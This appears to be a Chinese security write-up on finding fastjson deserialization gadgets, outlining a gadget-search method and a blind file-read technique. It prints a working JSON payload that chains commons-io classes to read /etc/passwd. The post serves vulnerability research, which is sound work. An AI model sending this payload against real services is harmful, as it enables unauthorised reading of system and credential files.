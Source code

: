 
## gadget的寻找
根据浅蓝的ppt，总结如下
* 步骤一:合适的异常(`Exception`)子类，异常类都继承自`Throwable`
* 步骤二:
  * 构造方法的参数
  * setter方法的参数
  * public修饰的成员变量
* 步骤三:递归步骤二
* 步骤四:和一些常见的gadget串联起来

## 寻找读文件链条
### commons-io 已知的读文件gadget
因为有commons-io依赖，因此可以将其作为最终触发点
以下是blackhat-usa-21的`poc`
```json
{
  "abc": {
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {
      "@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": {
        "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": "file:///etc/passwd"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },
    "boms": [
      {
        "charsetName": "UTF-8",
        "bytes": [
          11
        ]
      }
    ]
  },
  "address": {
    "$ref": "$.abc.BOM"
  }
}
```
### 从commons-io读文件gadget上延伸出来的无回显盲注
对于无回显的情况，浅蓝根据getBOM的返回值

* `ByteOrderMark[UTF-8: 0x41,0x41]`
* `null`

将其放入`CharSequenceReader`的参数中，使得参数类型不匹配就会报错，反之返回null时则不报错，核心代码如下
```java
public class CharSequenceReader extends Reader implements Serializable {
    private static final long serialVersionUID = 3724187752191401220L;
    private final CharSequence charSequence;
    private int idx;
    private int mark;
    private final int start;
    private final Integer end;

    public CharSequenceReader(CharSequence charSequence) {
        this(charSequence, 0);
    }

```